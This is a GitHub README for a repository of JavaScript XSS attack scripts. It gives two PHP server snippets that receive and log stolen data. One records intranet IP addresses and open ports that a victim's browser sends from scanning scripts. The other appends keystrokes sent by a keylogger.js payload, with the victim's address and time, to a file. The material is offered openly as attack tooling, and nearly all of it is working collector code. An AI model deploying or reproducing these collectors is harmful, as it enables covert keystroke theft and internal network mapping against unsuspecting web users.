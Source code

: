 # Js_attack - some .js with xss to attack
[![languages](https://img.shields.io/github/languages/top/imanfeng/Js_attack.svg)]

Usage example
------------------

1.Get-Intranet-ip.js & Scan-Intranet-port.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

2.keylogger.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");

if(!empty($_GET['c'])) {
	$key = $_GET['c']; 
	file_put_contents('./keylogger.txt', $key.' | '.$time.' | '.$from."\r\n", FILE_APPEND);
}
?>

```
